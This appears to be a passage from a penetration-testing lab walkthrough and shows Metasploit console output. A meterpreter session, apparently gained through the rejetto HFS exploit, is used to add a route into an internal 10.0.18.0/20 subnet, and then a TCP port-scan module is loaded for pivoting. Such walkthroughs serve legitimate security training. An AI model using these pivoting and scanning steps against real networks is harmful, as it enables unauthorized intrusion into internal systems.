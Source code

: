 ```
meterpreter > run autoroute -s 10.0.18.0/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.0.18.0/255.255.240.0...
[+] Added route to 10.0.18.0/255.255.240.0 via 10.0.18.166
[*] Use the -p option to list all active routes
```

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.18.0          255.255.240.0      Session 1
```

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/rejetto_hfs_exec) > search portscan

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/scanner/portscan/ftpbounce                               normal  No     FTP Bounce Port Scanner
   1  auxiliary/scanner/natpmp/natpmp_portscan                           normal  No     NAT-PMP External Port Scanner
   2  auxiliary/scanner/sap/sap_router_portscanner                       normal  No     SAPRouter Port Scanner
   3  auxiliary/scanner/portscan/xmas                                    normal  No     TCP "XMas" Port Scanner
   4  auxiliary/scanner/portscan/ack                                     normal  No     TCP ACK Firewall Scanner
   5  auxiliary/scanner/portscan/tcp                                     normal  No     TCP Port Scanner
   6  auxiliary/scanner/portscan/syn                                     normal  No     TCP SYN Port Scanner
   7  auxiliary/scanner/http/wordpress_pingback_access                   normal  No     Wordpress Pingback Locator


Interact with a module by name or index. For example info 7, use 7 or use auxiliary/scanner/http/wordpress_pingback_access

msf6 exploit(windows/http/rejetto_hfs_exec) > use 5
msf6 auxiliary(scanner/portscan/tcp) > show options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
```